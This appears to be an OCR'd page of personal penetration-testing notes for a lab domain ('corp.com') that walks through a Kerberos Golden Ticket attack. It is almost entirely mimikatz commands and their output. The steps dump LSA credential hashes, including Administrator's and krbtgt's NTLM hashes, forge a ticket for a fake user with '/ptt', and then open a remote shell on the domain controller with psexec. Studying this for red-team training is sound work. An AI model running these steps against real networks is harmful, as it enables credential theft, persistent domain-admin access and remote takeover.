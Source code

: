 ```

### Golden Ticket Crafting
I make the original TGT namely **Golden Ticket**. *This need krbtgt's hash*.

Get the krbtgt's hash:

```
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # lsadump::lsa /patch
Domain : CORP / S-1-5-21-1602875587-2787523311-2599479668 RID : 000001f4 (500)
User : Administrator
LM :
NTLM : e2b475c11da2a0748290d87aa966c327 RID : 000001f5 (501)
User : Guest
LM :
NTLM :
RID : 000001f6 (502)
User : krbtgt
LM :
NTLM : 75b60230a2394a812000dbfad8415965
```

Crafting the Golden Ticket:

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
```

Get the shell:

```
mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 012E3A24
C:¥Users¥offsec.crop> psexec.exe ¥¥dc01 cmd.exe
PsExec v2.2 - Execute processes remotely Copyright (C) 2001-2016 Mark Russinovich Sysinternals - www.sysinternals.com C:¥Windows¥system32> 
```
